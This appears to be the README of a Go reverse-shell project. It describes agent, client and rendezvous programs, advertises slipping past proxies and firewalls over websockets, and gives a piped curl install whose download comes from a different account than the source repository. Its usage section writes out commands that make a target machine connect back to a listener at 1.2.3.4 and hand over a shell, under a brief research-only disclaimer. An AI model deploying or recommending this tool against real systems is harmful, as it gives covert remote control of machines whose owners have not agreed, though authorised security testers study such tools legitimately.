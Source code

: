 ## A simple reverse-shell written in Go

[![Build Status](https://travis-ci.org/maxlaverse/reverse-shell.svg?branch=master)](https://travis-ci.org/maxlaverse/reverse-shell)
[![Code Coverage](https://codecov.io/gh/maxlaverse/reverse-shell/branch/master/graph/badge.svg)](https://codecov.io/gh/maxlaverse/reverse-shell)


**Disclaimer: This project is for research purposes only, and should only be used on authorized systems.**

---

## Introduction
"A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved." ([source](http://resources.infosecinstitute.com/icmp-reverse-shell/))

A reverse shell is also really useful when you're playing with your SSH server and want to have a backup plan
in case of misconfiguration.

Of course the simplest and most portable way is to use [Netcat](http://nc110.sourceforge.net/).

Here is a some features of this Go implementation:
* good portability
* can cross most proxies and firewalls with default configuration (using websockets, on https, on standard ports)
* auto-reconnection
* supports having multiple shells running on a single agent

This projects contains 3 applications that help you setting and interacting with remote shells:
* an `agent` to be started on the server where you want to open a shell
* a `client` waiting for agent connections and that allow you to interact with the shells
* a `rendezvous` application providing a central point where agents and clients meet when a direct connection is not possible/wanted (not mandatory)

## Installation
Download the binaries
```bash
curl -O -L -s /dev/null https://github.com/MKSx/reverse-shell/releases/download/v0.0.1/reverse-shell-0.0.1-linux-amd64.tar.gz | tar xvz
```

Or build from source
```bash
$ git clone https://github.com/maxlaverse/reverse-shell
$ cd reverse-shell && make
```

## Example of usage
Direct, with TCP:
```bash
# On the client (1.2.3.4)
$ nc 1.2.3.4 7777

# On the target
$ reverse-shell-agent tcp --host=1.2.3.4 --port=7777
```

Direct with Websockets:
```bash
# On the client (1.2.3.4)
$ reverse-shell-client listen --port=7777

# On the target
$ reverse-shell-agent websocket --url=http://1.2.3.4:7777
```

With a rendezvous:
```bash
# On the rendezvous (1.2.3.4)
$  reverse-shell-rendezvous --port=7777

# On the target
$ reverse-shell-agent websocket --url=http://1.2.3.4:7777

# On the client
$ reverse-shell-client rendezvous list-agents --url=http://1.2.3.4:7777
List of agents:
* 3.4.5.6:65000

# Create a session
$ reverse-shell-client rendezvous create-session --url=http://1.2.3.4:7777 3.4.5.6:65000
```

The complete usage is available for each component:
- [agent](docs/agent/reverse-shell-agent.md)
- [client](docs/client/reverse-shell-client.md)
- [rendezvous](docs/rendezvous/reverse-shell-rendezvous.md)

## Todo
* add scp-like commands
* improve logging messages
* read variables from environment
* have agent send its IP  and rendez vous showing the proxy client one
